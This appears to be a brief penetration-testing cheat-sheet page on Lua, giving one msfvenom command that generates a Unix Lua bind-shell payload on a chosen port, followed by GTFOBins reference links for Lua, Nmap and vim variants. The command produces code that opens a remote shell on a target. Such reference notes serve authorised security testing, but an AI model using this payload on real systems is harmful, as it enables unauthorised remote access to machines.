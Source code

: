 # Lua

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_lua lport=<PORT>
```

---
## References

- [GTFOBins: Lua](https://gtfobins.github.io/gtfobins/lua/)

- [GTFOBins: Nmap](https://gtfobins.github.io/gtfobins/nmap/)

- [GTFOBins: view](https://gtfobins.github.io/gtfobins/view/)

- [GTFOBins: rview](https://gtfobins.github.io/gtfobins/rview/)

- [GTFOBins: vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)

- [GTFOBins: rvim](https://gtfobins.github.io/gtfobins/rvim/)